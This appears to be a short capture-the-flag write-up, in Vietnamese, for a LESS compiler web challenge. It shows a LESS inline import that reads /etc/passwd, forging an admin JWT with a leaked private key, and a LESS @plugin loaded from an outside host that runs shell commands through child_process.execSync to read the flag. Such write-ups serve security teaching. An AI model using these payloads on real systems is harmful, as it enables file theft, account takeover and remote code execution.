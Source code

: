 # research3

## Ý tưởng 

Less compiler -> LFI -> đọc privatekey -> gen lại jwt token để lên admin -> rce đọc flag

## Solve

Challenge sẽ là công cụ LESS Decompiler

Đăng kí tài khoản user thường

User thường có thể sử dụng `import (inline) "/etc/passwd";` để LFI

![](https://i.imgur.com/pADpE7h.png)

Đọc các file của server

Phân tích file `src/index.js`

![](https://i.imgur.com/fSHA4Vb.png)

Để sử dụng `@plugin` thì ta sẽ phải truy cập được vào tài khoản admin

File `private.key` để lộ và ta có thể đọc được lợi dụng lỗ hổng để gen lại token jwt cho username

Khi lên được admin ta có thể chèn được plugin và thực hiện rce

less.js

```js
// less.js
functions.add('cmd', val => {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```

payload:

```js
@plugin "https://static.hypnguyen.com/less";
body {
    color: cmd('cat /flag*');
}
```

